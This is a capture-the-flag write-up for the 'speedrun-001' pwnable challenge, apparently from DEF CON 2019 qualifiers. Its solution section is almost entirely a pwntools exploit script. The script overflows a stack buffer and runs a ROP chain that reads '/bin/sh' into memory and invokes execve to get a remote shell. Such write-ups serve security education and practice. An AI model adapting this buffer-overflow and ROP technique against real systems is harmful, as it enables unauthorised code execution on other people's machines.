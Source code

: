 # **speedrun-001**

#### tag : pwnable, rop

-----------------------------------------------

#### Description

-----------------------------------------------

#### Solution

```python
from pwn import *
from time import sleep

context.arch = 'amd64'
context.log_level = 'debug'
r = remote('speedrun-001.quals2019.oooverflow.io', 31337)

bss = 0x6bb500
read = 0x4498a0

#0x0000000000400686 : pop rdi ; ret
gg1 = 0x0400686
#0x000000000044be39 : pop rdx ; pop rsi ; ret
gg2 = 0x44be39
#0x0000000000415664 : pop rax ; ret
gg3 = 0x415664
#0x0000000000474e65 : syscall ; ret
gg4 = 0x474e65

p = 'a' * 0x408
p += flat(
	gg1,
	0,
	gg2,
	8,
	bss,
	read
)
p += flat(
	gg1,
	bss,
	gg2,
	0,
	0,
	gg3,
	59,
	gg4
)

r.recvuntil('\n')
r.send(p)
r.recvuntil('\n')

sleep(0.3)
r.send('/bin/sh\x00')
r.interactive()
```
